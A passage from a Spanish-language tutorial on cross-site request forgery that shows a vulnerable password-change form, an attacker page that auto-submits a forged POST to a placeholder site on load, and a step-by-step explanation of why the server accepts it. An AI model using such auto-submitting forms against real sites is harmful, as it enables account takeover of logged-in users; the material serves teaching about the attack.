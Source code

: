 
### ✅ 3️⃣ Ejemplo MUY fácil

#### ✅ Escenario vulnerable

✅ Imagina un formulario para cambiar contraseña:

```html
<form action="https://victima.com/change-password" method="POST">
  <input type="hidden" name="password" value="nueva123" />
  <input type="submit" value="Cambiar" />
</form>
```

---

#### ✅ Ataque CSRF clásico

El atacante crea su propia página:

```html
<html>
  <body onload="document.forms[0].submit()">
    <form action="https://victima.com/change-password" method="POST">
      <input type="hidden" name="password" value="hacked123" />
    </form>
  </body>
</html>
```

✅ ¿Qué pasa si la víctima abre esta página mientras está logueada?

➡️ Su navegador envía la petición al servidor legítimo, con su **cookie de sesión**.

➡️ El servidor procesa **el cambio de contraseña**.

---

✅ El usuario no ve nada → **ataque invisible**.

---

### ✅ 4️⃣ Explicación paso a paso

✅ Paso 1: Víctima está logueada en `victima.com`.

✅ Paso 2: Navegador tiene cookie de sesión válida.

✅ Paso 3: Atacante engaña a la víctima para visitar una página maliciosa.

✅ Paso 4: Esa página envía **una petición POST automática**.

✅ Paso 5: El servidor **confía en la cookie** → acepta la petición.

---

### ✅ 5️⃣ Otro ejemplo práctico

✅ URL vulnerable para cambiar email:
